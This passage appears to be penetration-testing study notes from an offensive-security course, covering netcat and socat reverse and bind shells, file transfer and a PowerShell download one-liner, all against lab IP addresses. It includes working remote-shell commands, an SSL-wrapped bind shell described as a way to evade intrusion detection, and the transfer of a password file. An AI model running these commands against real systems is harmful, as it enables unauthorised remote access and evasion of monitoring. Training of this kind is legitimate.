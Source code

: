 Alice has no control over the router in her office, and therefore cannot forward traffic from the router to her internal machine. Alice cannot bind a port to **/bin/bash** locally on her computer but she can send control of her command prompt to Bob's machine instead. 
```console
#Bob - 10.11.0.22
C:\Users\offsec> nc -nlvp 4444
listening on [any] 4444 ...
#Alice - Netcat will have redirected /bin/bash input, output, and error data streams to Bob's machine
kali@kali:~$ nc -nv 10.11.0.22 4444 -e /bin/bash
(UNKNOWN) [10.11.0.22] 4444 (?) open
```
## socat
### Transferring Files with Socat
```console
#server
kali@kali:~$ sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
#fork creates a child process once a connection is made, which allows multiple connections, file: name of a file
#client
C:\Users\offsec> socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
#create - a new file will be created
```
### Socat Reverse Shells
```cmd
#local
C:\Users\offsec> socat -d -d TCP4-LISTEN:443 STDOUT
#-d -d: increase verbosity, STDOUT: connect standard output (STDOUT) to the TCP socket
#target
kali@kali:~$ socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```
### Socat Encrypted Bind Shells
Rely on SSL. This will assist in evading intrusion detection systems (IDS) and help hide the sensitive data we are transceiving.
- req: initiate a new certificate signing request
- -newkey: generate a new private key
- rsa:2048: use RSA encryption with a 2,048-bit key length
- -nodes: store the private key without passphrase protection
- -keyout: save the key to a file
- -x509: output a self-signed certificate instead of a certificate request
- -days: set validity period in days
- -out: save the certificate to a file
```console
#create a self-signed certificate
kali@kali:~$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
#cat the certificate and its private key into a file, which we will eventually use to encrypt our bind shell (convert to a format socat will accept)
kali@kali:~$ cat bind_shell.key bind_shell.crt > bind_shell.pem
#listener - verify=0: disable SSL verification
kali@kali:~$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
#bind: use - to transfer data between STDIO and the remote host.
C:\Users\offsec> socat - OPENSSL:10.11.0.4:443,verify=0
```
## PowerShell
### PowerShell File Transfers
```cmd
C:\Users\offsec> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```